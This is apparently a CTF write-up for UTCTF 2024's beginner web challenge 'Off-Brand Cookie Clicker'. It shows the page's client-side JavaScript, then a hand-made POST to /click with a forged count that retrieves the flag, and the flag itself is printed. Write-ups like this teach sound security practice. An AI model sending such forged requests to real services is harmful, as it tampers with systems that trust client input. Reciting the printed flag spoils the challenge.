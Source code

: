 ```yaml
---
title: "Beginner: Off-Brand Cookie Clicker"
description: "I tried to make my own version of cookie clicker, without all of the extra fluff."
points: 100
solves: 474
date: April 1 2024
author: Jozef Steinhübl
---
```


As soon as we open the site, we notice that we have to beat a certain score, and when we click on the cookie, it increases.

![cookie clicker](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-cookie-clicker.png)

We can start by inspecting the website using dev tools and we'll find this piece of code:
```js
document.addEventListener('DOMContentLoaded', function() {
  var count = parseInt(localStorage.getItem('count')) || 0;
  var cookieImage = document.getElementById('cookieImage');
  var display = document.getElementById('clickCount');

  display.textContent = count;

  cookieImage.addEventListener('click', function() {
    count++;
    display.textContent = count;
    localStorage.setItem('count', count);

    if (count >= 10000000) {
        fetch('/click', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: 'count=' + count
        })
        .then(response => response.json())
        .then(data => {
            alert(data.flag);
        });
    }
  });
});
```

![cookie clicker code](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-cookie-clicker-src.png)

We see here the condition that if the count is greater than `10000000` then a POST request is made to `/click`

So all we have to do is take a piece of code, modify `count` and run it:
```js
fetch('/click', {
  method: 'POST',
  headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'count=10000001'
})
.then(response => response.json())
.then(data => {
  alert(data.flag);
});
```

Flag:
```
utflag{y0u_cl1ck_pr3tty_f4st}
```